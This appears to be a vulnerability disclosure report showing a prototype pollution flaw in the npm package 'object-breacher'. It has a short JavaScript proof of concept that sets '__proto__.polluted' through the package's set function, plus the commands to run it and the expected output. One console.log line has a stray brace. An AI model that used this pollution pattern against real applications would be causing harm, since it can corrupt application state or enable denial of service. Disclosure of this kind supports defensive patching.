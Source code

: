 # Description

`object-breacher` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const { set } = require('object-breacher')

console.log('Before: ' + {}.polluted})
set({}, '__proto__.polluted', true)
console.log('After:  '+ {}.polluted)
```
2. Execute the following commands in the terminal:
```bash
npm i object-breacher # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.

